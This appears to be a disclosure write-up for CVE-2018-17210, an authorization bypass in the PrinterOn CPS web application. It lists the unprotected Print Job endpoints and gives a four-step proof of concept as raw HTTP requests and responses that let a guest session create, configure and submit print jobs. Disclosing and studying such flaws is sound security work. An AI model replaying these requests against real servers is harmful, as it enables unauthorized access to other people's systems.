 # CVE-2018-17210-Authorization bypass on core Print Job components-PrinterOn

The PrinterOn web application, 4.1.4 and lower, does not perform session validation checks on important webpages that manage the Printjob workflow. This allows unprivileged users (guest) to perform actions that would otherwise require the privileges of regular or administrative users within the application.

### Affected Components:

<table>
	<tr>
		<th>Application</th>
		<th>Vulnerable URL</th>
	</tr>
	<tr>
		<td>PrinterOn CPS v4.1.4</td>
		<td>/cps/SelectPrinter</td>
	</tr>	
	<tr>
		<td>PrinterOn CPS v4.1.4</td>
		<td>/cps/servlet/StoreOptions</td>
	</tr>	
	<tr>
		<td>PrinterOn CPS v4.1.4</td>
		<td>/cps/iframe/Submit</td>
	</tr>	
	<tr>
		<td>PrinterOn CPS v4.1.4</td>
		<td>/cps/servlet/SubmitRequestServlet</td>
	</tr>	
</table>

### Evidence:
- Server Configuration:

<img src="Server_config.png">

- No printers shown for Guest/Login Bypass Users:

<img src="No_Printers.png">

- Exploit in 4 Steps:

1) Get Job ID:

##### REQUEST 1:

```
GET /cps/servlet/StoreOptions?redirectUrl=SelectOptions&jobDestination=[PRINTER_ID] HTTP/1.1
Host: YY.YY.YY.YY
Cookie: JSESSIONID=[GUEST_COOKIE] 
```

##### RESPONSE 1:

```
HTTP/1.1 302 
Location: /cps/SelectOptions?jobId=[JOB_ID]
Content-Language: en-US
Content-Length: 0
Connection: close
Server: PrinterOn
```

2) Set Job Parameters:

#### REQUEST 2:

```
POST /cps/servlet/StoreOptions HTTP/1.1
Host: YY.YY.YY.YY
Cookie: JSESSIONID=[GUEST_COOKIE] 
DNT: 1
Connection: close
Upgrade-Insecure-Requests: 1
Content-Type: multipart/form-data; boundary=---------------------------425617494394984140183030477
Content-Length: 3517

-----------------------------425617494394984140183030477
Content-Disposition: form-data; name="redirectUrl"

SelectOptions2
-----------------------------425617494394984140183030477
Content-Disposition: form-data; name="jobId"

[JOB_ID]
-----------------------------425617494394984140183030477
Content-Disposition: form-data; name="documentURI_file"; filename="evil.xml"
Content-Type: application/octet-stream

<--SNIP-->
-----------------------------425617494394984140183030477
Content-Disposition: form-data; name="documentURI_uri"


-----------------------------425617494394984140183030477
Content-Disposition: form-data; name="poCopies"


-----------------------------425617494394984140183030477
Content-Disposition: form-data; name="PageRange1"

<--SNIP--> 
```

##### RESPONSE 2:

```
HTTP/1.1 302 
Location: /cps/SelectOptions2?jobId=[JOB_ID]
Content-Language: en-US
Content-Length: 0
Connection: close
Server: PrinterOn
```

##### REQUEST 3:

```
POST /cps/servlet/StoreOptions HTTP/1.1
Host: YY.YY.YY.YY
Cookie: JSESSIONID=[GUEST_COOKIE] 
DNT: 1
Connection: close
Upgrade-Insecure-Requests: 1
Content-Type: multipart/form-data; boundary=---------------------------87467021316423554081259258406
Content-Length: 911

-----------------------------87467021316423554081259258406
Content-Disposition: form-data; name="redirectUrl"

RequestSubmitted
-----------------------------87467021316423554081259258406
Content-Disposition: form-data; name="jobId"

[JOB_ID]
-----------------------------87467021316423554081259258406
Content-Disposition: form-data; name="poMediaSizeNum"

1
-----------------------------87467021316423554081259258406
Content-Disposition: form-data; name="poDuplex"

Simplex
-----------------------------87467021316423554081259258406
Content-Disposition: form-data; name="poColor"

0
-----------------------------87467021316423554081259258406
Content-Disposition: form-data; name="poOrientation"

AsSaved
-----------------------------87467021316423554081259258406
Content-Disposition: form-data; name="Submit"

CONTINUE
-----------------------------87467021316423554081259258406--
```

##### RESPONSE 3:

```
HTTP/1.1 302 
Location: /cps/RequestSubmitted?jobId=[JOB_ID]
Content-Language: en-US
Content-Length: 0
Connection: close
Server: PrinterOn
```

3) Start Job:

##### REQUEST 4:

```
GET /cps/iframe/Submit?jobId=[JOB_ID] HTTP/1.1
Host: YY.YY.YY.YY
Cookie: JSESSIONID=[GUEST_COOKIE] 
```

##### RESPONSE 4:

```
HTTP/1.1 200
<--SNIP--> 
Content-Length: 6681
Server: PrinterOn

<--SNIP--> 

<h3>Submitting Job</h3>
    </div>
    <div class="jumbotron-contents">
        <div class="standardfont color1 text-center">
            Time Elapsed
            <br>
            00:00
        </div>
        <div>
            <img class="spinner" src="/cps/images/ajax-loader.gif"/>
        </div>

        <br>

        <div class="row text-center">
            Submitting your job... please wait.
        </div>

<--SNIP-->  
```

4) Submit Job to Servlet:

##### REQUEST 5:

```
POST /cps/servlet/SubmitRequestServlet HTTP/1.1
Host: YY.YY.YY.YY
Cookie: JSESSIONID=[GUEST_COOKIE] 
Content-Type: application/x-www-form-urlencoded
Content-Length: 16

jobId=[JOB_ID]
```

##### RESPONSE 5:

```
HTTP/1.1 302 
Location: /cps/iframe/Confirmation?jobId=[JOB_ID]
Content-Language: en-US
Content-Length: 0
Connection: close
Server: PrinterOn
```

##### RESULT:

<img src="Authorization_Bypass.png">
